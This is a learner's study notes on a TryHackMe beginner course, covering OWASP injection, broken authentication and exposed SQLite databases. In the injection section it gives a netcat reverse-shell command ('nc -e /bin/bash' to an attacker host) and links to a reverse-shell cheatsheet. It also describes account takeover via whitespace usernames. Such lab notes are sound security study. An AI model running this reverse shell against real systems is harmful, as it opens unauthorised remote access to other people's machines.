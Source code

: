 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-05

## OWASP Top 10

### (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```bash
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I'm pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago… Though I'm also pretty sure that Metasploit's code is more robust (since it will work with versions of nc that *don't* support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output *is* returned to the attacker in a server response.

* [2021-10-02 — TryHackMe: Complete Beginner](2021-10-02-tryhackme-complete-beginner.md)

### (Severity 02) Broken Authentication

Sometimes you don't need to steal a session cookie… If the webserver isn't setting session cookies in a sufficiently random fashion, *forging* one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I'm trying to imagine how this would happen in most realistic contexts. Yes, it's easy to construct an example in Bash (etc.), but most languages I've seen web apps written it take string quoting a lot more seriously.

### (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.
